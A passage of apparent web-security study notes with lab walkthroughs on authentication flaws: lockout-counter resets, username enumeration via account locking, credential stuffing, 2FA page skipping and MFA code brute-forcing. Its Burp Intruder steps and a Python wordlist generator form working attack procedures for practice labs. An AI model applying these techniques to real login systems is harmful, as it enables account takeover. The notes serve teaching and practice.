# 13. Wordlist Bypass Technique

Attackers automate this process.

They insert their own valid credentials regularly inside the wordlist.

# 14. Example Wordlist Pattern

```text
carlos:test1
carlos:test2
carlos:test3
attacker123:pass123
carlos:test4
carlos:test5
carlos:test6
attacker123:pass123
```
# 15. Why This Bypasses Protection

Each successful login:

```text
Resets failed-attempt counter
```

So attacker never reaches lockout limit.


# 16. Real-World Result

Protection becomes almost useless.

Attacker can continue brute-force attempts indefinitely.

# 17. Important Note About Automation

Attackers usually automate this using tools like:

- Burp Suite Intruder
- Hydra
- Custom Python scripts

These tools can:

- Rotate credentials
- Insert valid logins automatically
- Avoid triggering protection

# 18. Example Attack Logic

## Weak Website Logic

```python
if login_successful:
    failed_attempts = 0
```

## Why This is Dangerous

Any successful login resets protection for attacker.

# 19. Better Secure Logic

A safer implementation:

```python
Track failed attempts separately for:
- Each account
- Each IP
- Each session
```

Do NOT reset counters globally

# 20. Signs of Flawed Brute-Force Protection During Testing

While testing login pages, check for:

## 20.1 Counter Reset After Successful Login

Try:

- Few failed attempts
- One successful login
- More failed attempts

See if protection resets.

## 20.2 Inconsistent Lockout Behavior

Example:

```text
Sometimes blocked
Sometimes not blocked
```

This may indicate flawed logic.

## 20.3 Easy Rate-Limit Bypass

Check whether:

- Different usernames bypass protection
- Successful logins reset counters
- Different IP headers bypass blocks

# 21. Important Security Notes

## Good Security Practice

### Failed-attempt counters should not reset easily

### Use Rate Limiting

Example:

```text
Maximum 5 attempts per minute
```

### Track Multiple Factors

Track:

- Username
- IP address
- Device/session

### Use CAPTCHA Carefully

CAPTCHA may slow automation.




## Step 1: Observe Login Protection

1. Open the login page.
2. Submit invalid credentials multiple times.

Example:

```text
Username: test
Password: test123
```

3. Notice:

```text
After 3 failed attempts, your IP/account gets temporarily blocked.
```



## Step 2: Observe Counter Reset Behavior

1. Before reaching the limit:
   - Login successfully using your own account.

2. Notice:

```text
The failed login counter resets after a successful login.
```

This means:

```text
We can bypass brute-force protection by alternating:
- Valid login
- Target login attempt
```

---

# Create Intruder Attack

## Step 3: Send Request to Intruder

1. Capture the request:

```http
POST /login
```

2. Right-click the request.
3. Select:

```text
Send to Intruder
```

---

## Step 4: Configure Pitchfork Attack

1. Open the **Intruder** tab.
2. Set attack type to:

```text
Pitchfork
```

3. Add payload positions to:
   - Username parameter
   - Password parameter

Example:

```http
username=§user§&password=§pass§
```

---

# Configure Resource Pool

## Step 5: Set Maximum Concurrent Requests

1. Click:

```text
Resource pool
```

2. Create or edit a resource pool.
3. Set:

```text
Maximum concurrent requests = 1
```

This ensures:

```text
Requests are sent one at a time and in correct order.
```

---

# Configure Username Payload List

## Step 6: Add Username Payloads

1. Open the **Payloads** side panel.
2. Select:

```text
Payload position 1
```

3. Add usernames in alternating order:

Example:

```text
wiener
carlos
wiener
carlos
wiener
carlos
```

Requirements:

- Your username must come first
- Carlos must repeat many times
- At least 100 entries recommended

Purpose:

```text
Successful login to your account resets the failed attempt counter.
```

---

# Configure Password Payload List

## Step 7: Add Password Payloads

1. Select:

```text
Payload position 2
```

2. Add passwords aligned with usernames.

Example:

```text
peter-password
123456
peter-password
password
peter-password
qwerty
```

Important:

```text
Your password must align with your username entries.
```

# Python Script for Alternating Username and Password Lists

```python
print("########## Usernames ##########")

for i in range(150):
    if i % 3:
        print("carlos")
    else:
        print("wiener")


print("########## Passwords ##########")

with open("passwords.txt", "r", encoding="utf-8", errors="ignore") as f:
    lines = f.readlines()

i = 0

for pwd in lines:

    if i % 2 == 0:
        print("peter")

    print(pwd.strip())

    i = i + 1
```

# Start Attack

## Step 8: Launch Attack

1. Start the Intruder attack.
2. Wait for completion.

---

# Identify Correct Password

## Step 9: Filter Results

1. Filter out:

```text
200 OK
```

responses.

2. Sort remaining responses by:

```text
Username
```

3. Observe:

```text
Only one request for carlos returns 302 Found.
```

This indicates:

```text
Successful login.
```

4. Note the password from:

```text
Payload 2 column
```


---

# Login Successfully

## Step 10: Access Carlos Account

1. Open login page.
2. Enter:
   - Username: carlos
   - Identified password

3. Login successfully.
4. Open Carlos's account page to solve the lab.



# Account Locking

# 1. What is Account Locking?

Account locking is a security mechanism used to stop brute-force attacks.

The website temporarily locks a user's account after multiple failed login attempts.

## Simple Understanding

If someone enters the wrong password many times: Website blocks further login attempts

for some time.

# 2. Why Websites Use Account Locking

Brute-force attacks depend on:

- Trying many passwords repeatedly
- Automated login attempts
- High-speed guessing

Account locking tries to stop this behavior.

# 3. How Account Locking Works

## Example Login Limit

Suppose website allows:Maximum 3 failed login attempts

## Attack Example

### Attempt 1

```text
Username: carlos
Password: test123
```

Result:

```text
Login Failed
```

### Attempt 2

```text
Username: carlos
Password: hello123
```

Result:

```text
Login Failed
```

### Attempt 3

```text
Username: carlos
Password: admin123
```

Result:

```text
Account Locked
```


# 4. Example Server Response

Sometimes server responds with messages like:

```http
HTTP/1.1 403 Forbidden
```

or

```text
Your account has been locked
```


# 5. Why Account Locking Helps

This slows down attackers because: They cannot continue trying passwords continuously

# 6. Problem with Account Locking

Although account locking helps, it is NOT perfect.

Attackers can still bypass or abuse it.

# 7. Username Enumeration Through Account Locking

Account locking itself can leak information.

## How?

Suppose attacker enters many wrong passwords.

### Invalid Username

```text
Invalid username or password
```

### Valid Username

After multiple attempts:

```text
Account locked
```

## What Attacker Learns

If account gets locked:

```text
Username exists
```

because non-existing usernames usually cannot be locked.

# 8. Why This is Dangerous

Attackers can build a list of valid usernames.

This is called:

```text
Username Enumeration
```

# 9. Limitation of Account Locking

Account locking mainly protects: One specific account

But attackers may target: Many accounts at the same time

# 10. Brute-Forcing Multiple Accounts

Instead of attacking one account repeatedly:

Attacker tries:

- Few passwords
- Against many usernames

This avoids account lockouts.

# 11. Attack Strategy to Bypass Account Locking

# Step 1 Find Candidate Usernames

Attacker first collects possible usernames.

## Methods

### Username Enumeration

Example:

```text
Different error messages
Different response times
Account lock responses
```

### Common Username Lists

Example:

```text
admin
carlos
john
mike
support
administrator
```
# Step 2 Choose Small Password List

Attacker selects only a few common passwords.

Important: Number of passwords must stay below lockout limit

## Example

Suppose lockout limit: 3 failed attempts

Attacker selects:

```text
password123
welcome123
admin123
```
Only 3 passwords.
# Step 3 Try Passwords Against All Users

Attacker uses automation tools.

## Example Attack

```text
carlos : password123
john : password123
mike : password123
admin : password123
```

Then:

```text
carlos : welcome123
john : welcome123
mike : welcome123
admin : welcome123
```
# 12. Why This Bypasses Account Locking

Each account only receives: Few login attempts
below the lockout threshold.
So accounts never get locked.
### Result of the Attack
If even ONE user uses a weak password:Attacker gains access

# 13. Credential Stuffing

Another major problem is:Credential Stuffing

### What is Credential Stuffing?

Credential stuffing means:

```text
Using stolen username-password pairs from data breaches
```
to log into other websites.
#### Why Credential Stuffing Works

Many people reuse the same password on multiple websites.

## Example

Suppose user uses:

```text
Username: carlos@gmail.com
Password: Hello@123
```

on:

- Facebook
- Twitter
- Banking site
- Shopping site

## If One Website Gets Hacked

Attacker steals credentials.

Then attacker tries same credentials on other websites.

# 14. Credential Stuffing Attack Example

## Stolen Credential List

```text
carlos@gmail.com : Hello@123
john@gmail.com : password123
admin@gmail.com : admin123
```

## Automated Login Attempts

Attacker sends: One login attempt per account

#### Why Account Locking Fails Against Credential Stuffing

Account locking usually triggers after:

```text
Multiple failed attempts
```

But in credential stuffing:

```text
Each username is attempted only once
```

So no lockout occurs.

---

### Why Credential Stuffing is Dangerous

Credential stuffing can compromise:

- Many accounts quickly
- Different users simultaneously
- Real accounts with valid passwords


# 15. Important Security Notes

## Good Protection Methods

### Use Multi-Factor Authentication (MFA)

Even if password is correct:Attacker still needs OTP/device

### Detect Unusual Login Behavior

Monitor:

- Different IP addresses
- Large login volumes
- Bot activity

### Password Reuse Detection

Warn users about reused passwords.

### CAPTCHA Protection

Helps slow automated attacks.

### Rate Limiting

Limit login speed.

Example:5 login attempts per minute


## Step 1: Capture Login Request

1. Start **Burp Suite**.
2. Open the login page.
3. Enter:
   - Invalid username
   - Invalid password

4. Submit the login form.

## Step 2: Send Request to Intruder

1. Go to:

```text
Proxy > HTTP history
```

2. Find the request:

```http
POST /login
```

3. Right-click the request.
4. Select:

```text
Send to Intruder
```

# Username Enumeration

## Step 3: Configure Cluster Bomb Attack

1. Open the **Intruder** tab.
2. Set attack type to:

```text
Cluster bomb
```

## Step 4: Add Payload Positions

1. Add payload position to:

```http
username=§invalid-username§
```

2. Add an empty payload position at the end of the password parameter.

Example:

```http
username=§invalid-username§&password=example§§
```

Purpose:

```text
This repeats each username multiple times.
```

## Step 5: Configure Payload 1 (Usernames)

1. Open the **Payloads** side panel.
2. Select:

```text
Payload position 1
```

3. Paste the username wordlist.


## Step 6: Configure Payload 2 (Null Payloads)

1. Select:

```text
Payload position 2
```

2. Set payload type to:

```text
Null payloads
```

3. Configure:

```text
Generate payloads: 5
```

This causes:

```text
Each username is tested 5 times.
```


## Step 7: Start Username Enumeration Attack

1. Start the attack.
2. Wait for completion.


## Step 8: Identify Valid Username

1. Observe the response lengths.
2. One username produces longer responses.

### Normal Error

```text
Invalid username or password
```

### Different Error

```text
You have made too many incorrect login attempts.
```

This indicates:

```text
Valid username found.
```

3. Note the username.

# Password Brute Force

## Step 9: Create New Intruder Attack

1. Send the request to Intruder again.
2. Set attack type to:

```text
Sniper
```

## Step 10: Configure Password Payload Position

1. Insert the valid username.
2. Add payload markers around password.

Example:

```http
username=identified-user&password=§invalid-password§
```

## Step 11: Add Password Wordlist

1. Open the **Payloads** tab.
2. Paste the password list.

---

## Step 12: Configure Grep Extract

1. Open:

```text
Settings
```

2. Under:

```text
Grep - Extract
```

3. Click:

```text
Add
```

4. Highlight the error message text from the response.

Example:

```text
Invalid username or password
```

5. Click:

```text
OK
```

## Step 13: Start Password Attack

1. Start the attack.
2. Wait for completion.

## Step 14: Identify Correct Password

1. Observe the:

```text
Grep Extract
```

column.

2. Most responses contain error messages.

3. One response contains:

```text
No error message
```

This indicates:

```text
Successful login.
```

4. Note the password from the Payload column.


# Final Login

## Step 15: Wait for Lock Reset

1. Wait about:

```text
1 minute
```

This allows the account lock to reset.

## Step 16: Login Successfully

1. Open the login page.
2. Enter:
   - Valid username
   - Correct password

3. Login successfully.
4. Open the account page to solve the lab.

--------------
----------

# User Rate Limiting

## What is User Rate Limiting?

User rate limiting is a security feature that helps prevent brute-force attacks.

If a user sends too many login requests in a short time, the website temporarily blocks their IP address.

### Example

Suppose an attacker tries hundreds of passwords for an account:

* Password1
* Password2
* Password3
* ...

After a certain number of failed attempts, the website blocks the attacker's IP address.


## How Can the IP Be Unblocked?

The blocked IP can usually be unblocked in one of these ways:

1. Automatically after a certain time (e.g., 15 minutes)
2. Manually by an administrator
3. By completing a CAPTCHA successfully


## Advantages of User Rate Limiting

* Helps stop brute-force attacks.
* Better than account locking in some situations.
* Reduces the risk of username enumeration.
* Less likely to cause denial-of-service (DoS) problems.


## Limitations

User rate limiting is not perfect.

Attackers may bypass it by:

* Using different IP addresses.
* Using VPNs or proxy servers.
* Rotating IP addresses during the attack.

If the protection only counts requests from one IP, changing the IP may avoid the block.

## Important Point

Since the limit is based on the number of HTTP requests from an IP address, an attacker may sometimes try multiple password guesses in a single request to bypass the protection.

# HTTP Basic Authentication

## What is HTTP Basic Authentication?

HTTP Basic Authentication is a simple authentication method used by some websites and applications.

The username and password are combined and encoded using Base64.

### Format

```http
Authorization: Basic base64(username:password)
```

### Example

Username:

```text
admin
```

Password:

```text
password123
```

Combined:

```text
admin:password123
```

Encoded in Base64 and sent in the HTTP header.

## How It Works

1. User enters username and password.
2. Browser creates a Base64-encoded token.
3. Browser stores the token.
4. Browser automatically sends the token with every request.


## Why HTTP Basic Authentication Is Considered Weak

### 1. Credentials Are Sent Repeatedly

The username and password information is sent with every request.

If the connection is not properly protected, an attacker may capture these credentials.


### 2. Vulnerable to Man-in-the-Middle (MitM) Attacks

Without proper encryption (HTTPS/HSTS), attackers can intercept network traffic and steal credentials.


### 3. Weak Brute-Force Protection

Many implementations do not have strong protection against brute-force attacks.

Attackers may repeatedly try different username and password combinations.


### 4. Vulnerable to CSRF Attacks

HTTP Basic Authentication does not provide protection against Cross-Site Request Forgery (CSRF) attacks by itself.


### 5. Credential Reuse Risk

Even if an attacker gains access to a less important page, the same username and password might be used elsewhere.

This can lead to compromise of more sensitive systems.

--------------
-------------

# Vulnerabilities in Multi-Factor Authentication (MFA)

## What is Multi-Factor Authentication (MFA)?

Multi-Factor Authentication (MFA) is a security method that requires users to prove their identity using more than one authentication factor.

### Common Factors

| Factor Type        | Example                      |
| ------------------ | ---------------------------- |
| Something you know | Password, PIN                |
| Something you have | Mobile phone, security token |
| Something you are  | Fingerprint, Face ID         |


## Why MFA is More Secure

With normal login:

```text
Username + Password
```

If an attacker steals the password, they can log in.

With MFA:

```text
Password + Verification Code
```

Even if the attacker knows the password, they still need the verification code.

This makes attacks much harder.


# Important Rule

True MFA requires **different authentication factors**.

### Correct MFA

```text
Password (Something you know)
+
Phone Token (Something you have)
```

 True Two-Factor Authentication

### Incorrect MFA Example

```text
Password
+
Email Verification Code
```

⚠ Not true 2FA

Why?

Because both depend on knowing the email account credentials.

The same factor ("something you know") is being checked twice.


# Two-Factor Authentication (2FA) Tokens

A verification token is a temporary code used during login.

Example:

```text
Password: admin123
Verification Code: 845921
```

The user must provide both.


## Common Types of 2FA Tokens

### 1. Hardware Security Tokens

Examples:

* RSA Token
* Banking Security Device

Features:

* Generate codes directly on the device.
* Very secure.
* Difficult to intercept.

### 2. Authenticator Apps

Examples:

* Google Authenticator

Features:

* Generates codes on the phone.
* Does not rely on SMS.
* More secure than text messages.

### 3. SMS Verification Codes

Example:

```text
Your verification code is: 123456
```

Sent to the user's phone through SMS.


# Weaknesses of SMS-Based 2FA

## 1. SMS Interception

The verification code travels through mobile networks.

Attackers may intercept messages in certain situations.


## 2. SIM Swapping Attack

### What is SIM Swapping?

The attacker tricks the mobile carrier into transferring the victim's phone number to a new SIM card.

### Result

```text
Victim's Phone Number
        ↓
Attacker's SIM Card
```

Now all SMS messages go to the attacker.

Including:

* OTPs
* Verification codes
* Password reset messages

This can allow account compromise.


# Bypassing Two-Factor Authentication

Sometimes 2FA is implemented incorrectly.

In these cases, attackers may access accounts without completing the second authentication step.


## Example of a Flawed 2FA Process

### Step 1

User enters:

```text
Username
Password
```

Website accepts them.

### Step 2

Website asks for:

```text
Verification Code
```


### Problem

Some websites consider the user partially logged in after Step 1.

If the website fails to properly verify Step 2, protected pages may still be accessible.


## Example Flow

```text
1. Enter Username
        ↓
2. Enter Password
        ↓
3. Verification Page Appears
        ↓
4. User skips verification page
        ↓
5. Accesses account page directly
```

If the website does not check whether the verification code was completed, the attacker gains access.

---

# Why This Happens

The website:

 Checks username and password

 Fails to check whether 2FA was completed

As a result, the second security layer becomes useless.





## Step 1: Login to Your Own Account

1. Open the login page.
2. Enter your own credentials.

Example:

```text
Username: wiener
Password: peter
```

3. Click **Log in**.

## Step 2: Retrieve 2FA Verification Code

1. After login, a verification code is sent by email.
2. Click:

```text
Email client
```

3. Open the latest email.
4. Note the verification code.


## Step 3: Complete 2FA Login

1. Enter the verification code.
2. Successfully log in to your account.


## Step 4: Visit Account Page

1. Navigate to:

```text
My Account
```

2. Observe the URL.

Example:

```text
https://LAB-ID.web-security-academy.net/my-account?id=wiener
```

or

```text
https://LAB-ID.web-security-academy.net/my-account
```

3. Make a note of the URL.


## Step 5: Logout

1. Click:

```text
Log out
```

2. Return to the login page.

## Step 6: Login as Victim

Use the victim credentials provided by the lab.

Example:

```text
Username: carlos
Password: montoya
```

1. Enter the credentials.
2. Click **Log in**.


## Step 7: Bypass the 2FA Page

1. After login, the application redirects to:

```text
/login2
```

or a similar 2FA verification page.

2. Do **not** enter a verification code.

3. Manually change the URL in the browser address bar to:

```text
/my-account
```

Example:

```text
https://LAB-ID.web-security-academy.net/my-account
```

4. Press **Enter**.


## Step 8: Lab Solved

If the application does not properly enforce the second authentication step:

```text
The My Account page loads successfully.
```

This means:

```text
2FA authentication was bypassed.
```

The lab is solved once the victim's account page is displayed.


# Vulnerability Explanation

### Normal Flow

```text
Login
   ↓
2FA Verification
   ↓
My Account
```

### Vulnerable Flow

```text
Login
   ↓
2FA Verification
   ↓
Manually browse to /my-account
   ↓
Access granted
```

The application checks:

```text
Username + Password
```

but fails to verify that:

```text
2FA step has been completed
```

before granting access to protected pages.

---


-------------
---------

# Flawed Two-Factor Verification Logic

## What is Flawed Two-Factor Verification Logic?

This vulnerability occurs when a website fails to properly verify that the same user who entered the password is also completing the second authentication step.

As a result, an attacker may be able to authenticate as another user.


# Normal Login Process

### Step 1: User Enters Credentials

```http
POST /login-steps/first

username=carlos
password=qwerty
```

The website verifies the username and password.


### Step 2: Server Creates a Cookie

```http
Set-Cookie: account=carlos
```

The cookie identifies the account currently being authenticated.


### Step 3: User Enters Verification Code

```http
POST /login-steps/second

Cookie: account=carlos
verification-code=123456
```

The server uses the cookie value to determine which account is being verified.


# Where the Vulnerability Exists

The website trusts the cookie value too much.

Instead of securely linking the verification step to the authenticated user, it simply reads:

```http
Cookie: account=carlos
```

to decide which account should be logged in.


# Attack Scenario

Assume the attacker has their own account:

```text
Username: attacker
Password: attacker123
```

The attacker logs in normally.


### Server Sets Cookie

```http
Set-Cookie: account=attacker
```

### Attacker Modifies the Cookie

Before submitting the verification code, the attacker changes:

```http
Cookie: account=attacker
```

to

```http
Cookie: account=victim-user
```


### Modified Request

```http
POST /login-steps/second

Cookie: account=victim-user
verification-code=123456
```

Now the server believes the verification attempt belongs to `victim-user`.


# Why This Is Dangerous

The attacker:

 Uses their own username and password

 Does not know the victim's password

Yet the attacker may still be able to complete authentication for the victim's account if the website trusts the modified cookie.


# Combined with Verification Code Brute Force

This becomes much worse if:

* Verification codes are short (6 digits)
* No rate limiting exists
* No account lockout exists

An attacker could repeatedly guess verification codes for any user.

Example:

```text
000001
000002
000003
...
999999
```

Eventually the correct code may be found.


# Root Cause

The website incorrectly relies on:

```http
Cookie: account=username
```

to identify the user.

The server should instead securely store the authenticated user's identity on the server side.


# Secure Implementation

Instead of trusting user-controlled data:

```text
Cookie → User Account
```

The server should maintain:

```text
Session ID
      ↓
Server Session
      ↓
Authenticated User
```

This prevents attackers from changing account identities.

# Simple Diagram

## Vulnerable Design

```text
Login
  ↓
Cookie: account=carlos
  ↓
User can modify cookie
  ↓
Cookie: account=victim
  ↓
Server trusts cookie
  ↓
Victim account accessed
```

## Secure Design

```text
Login
  ↓
Session ID Created
  ↓
Server Stores User Identity
  ↓
Verification Step
  ↓
Server Checks Stored Session
  ↓
Correct User Verified
```

---
# Bypassing 2FA Using a Flawed Verification Logic



## Step 1: Login to Your Own Account

1. Open the login page.
2. Login using your own credentials.

Example:

```text
Username: wiener
Password: peter
```

3. Submit the login form.

---

## Step 2: Investigate the 2FA Request

1. Complete the login process until you reach the 2FA page.
2. In Burp Suite, locate:

```http
POST /login2
```

3. Observe the request parameters.

Example:

```http
POST /login2

mfa-code=1234
verify=wiener
```

Notice:

```text
The verify parameter determines which user's account is being verified.
```

This is the vulnerability.

---

## Step 3: Logout

1. Logout of your account.
2. Return to the login page.

---

# Generate Carlos's 2FA Code

## Step 4: Send GET /login2 to Repeater

1. Find the request:

```http
GET /login2
```

2. Right-click.
3. Select:

```text
Send to Repeater
```

---

## Step 5: Modify verify Parameter

Original:

```http
GET /login2?verify=wiener
```

Change to:

```http
GET /login2?verify=carlos
```

4. Click:

```text
Send
```

This causes:

```text
A temporary 2FA code to be generated for Carlos.
```

---

# Prepare for Brute Force

## Step 6: Login Again

1. Go to the login page.
2. Login using your own credentials.

Example:

```text
Username: wiener
Password: peter
```

3. Reach the 2FA page.

---

## Step 7: Submit Invalid Code

Enter any invalid code.

Example:

```text
0000
```

Submit the form.

---

## Step 8: Send POST /login2 to Intruder

1. Locate:

```http
POST /login2
```

2. Right-click.
3. Select:

```text
Send to Intruder
```

---

# Configure Intruder

## Step 9: Modify verify Parameter

Change:

```http
verify=wiener
```

to:

```http
verify=carlos
```

---

## Step 10: Add Payload Position

Add payload markers around:

```http
mfa-code=§0000§
```

Example:

```http
POST /login2

mfa-code=§0000§&verify=carlos
```

---

## Step 11: Configure Payload

1. Open the **Payloads** tab.
2. Select:

```text
Simple list
```

3. Use all possible 4-digit codes.

Example:

```text
0000
0001
0002
...
9999
```

or use:

```text
Numbers
```

Configuration:

```text
From: 0000
To: 9999
Step: 1
```

---

## Step 12: Start Attack

1. Launch the Intruder attack.
2. Wait for completion.

---

# Identify Correct 2FA Code

## Step 13: Find Successful Response

Observe the:

```text
Status
```

column.

Most responses:

```text
200 OK
```

Successful response:

```text
302 Found
```

This indicates:

```text
Valid 2FA code discovered.
```

---

## Step 14: Open Successful Response

1. Right-click the successful request.
2. Select:

```text
Show response in browser
```

or

```text
Open in browser
```

3. Load the URL.

---

# Solve the Lab

## Step 15: Access My Account

1. Click:

```text
My Account
```

2. You are now authenticated as:

```text
carlos
```

3. The lab is solved.

---

# Vulnerability Explanation

### Intended Flow

```text
Login as User
      ↓
Generate User's 2FA Code
      ↓
Verify Same User's Code
      ↓
Account Access
```

### Vulnerable Flow

```text
Login as Wiener
      ↓
Change verify=wiener
      ↓
verify=carlos
      ↓
Brute-force Carlos's 2FA Code
      ↓
Access Carlos's Account
```

The application trusts the:

```text
verify
```

parameter supplied by the client instead of securely binding the verification process to the authenticated user.

---
